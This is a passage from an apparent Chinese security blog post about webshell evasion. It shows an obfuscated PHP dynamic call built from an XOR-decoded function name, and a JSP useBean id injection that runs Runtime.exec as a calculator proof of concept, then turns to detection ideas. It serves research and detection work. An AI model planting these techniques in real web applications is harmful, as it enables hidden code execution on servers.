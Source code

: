 ```
            return $matches[1];
        }
    }
}
namespace {
    use DemoInfo\Demo;
    use function DemoInfo\xorencrypt;
    define("DEMO2", (xorencrypt("PBBTCE", "1")));
    define("DEMO", (new Demo())->invokeMethod());
    (DEMO2)(\DEMO);
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZdiav3QO7MZn7PiaKliby6SJJUo1IxpcwibicFbAibAGFstQw5Eyl6amTobLFcwmIwHOISSM7H6LaekIYBQ/640?wx_fmt=png&from=appmsg "")  
  
在 jsp 中，和 php 会有所不同，jsp 会 <%!%>   
会被翻译成class，而 <%%>   
中的内容会被翻译到 _jspService   
方法中。在我前一段时间的研究中发现，jsp   
在翻译成 .java 的时候，会在底层有一些**鸡肋**  
的处理。比如：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZdiav3QO7MZn7PiaKliby6SJJUaUFn7PDkLXaNMRmQyABjPXQgDlR58Y8oaMmGYHsAV5Yg3eX2XFSIzA/640?wx_fmt=png&from=appmsg "")  
  
他在翻译的时候，会将标签解析成 AST   
抽象语法树，然后再通过StringBuilder   
“拼接” 成一个 .java   
文件，然后再进行编译。那这样的话，其实有非常多的 bypass   
技巧和方法。我在翻了几个 AST 翻译过程时发现，有些会被拦掉，但有些并不会。这块会直接拿到 id   
中的内容，然后直接写入到 .java   
中，可以实现代码注入。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZdiav3QO7MZn7PiaKliby6SJJUKlPzwTyosCiauEX5ZW9qwHoKse1ia43b6wQK8p9zUuJfzsjAzrTyAbYg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZdiav3QO7MZn7PiaKliby6SJJUX15hCllotaCRrNbtlLlC24t3uqYT7TcXSu62A5ia94ECwDa5ibRibqLJA/640?wx_fmt=png&from=appmsg "")  
### Webshell demo：  
```
<jsp:useBean id="a=null;java.lang.Runtime.getRuntime().exec(\"open -a calculator\");/*" class="org.aa.test"/>  
<%*/out.print(1);%>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZdiav3QO7MZn7PiaKliby6SJJUiaribNltC2d1eLzzdicgssWbeAyhAQawichxmpibd3qIFC9zRV35kicM3cmw/640?wx_fmt=png&from=appmsg "")  
  
因为 WebShell   
中的 source   
和 sink   
都做了很多污染，也利用了一些冷门的特性。只能找一些通用的共同点，提供一些通用的思路检测。  
### call method 检测：检查 call method 是否为常量。  
  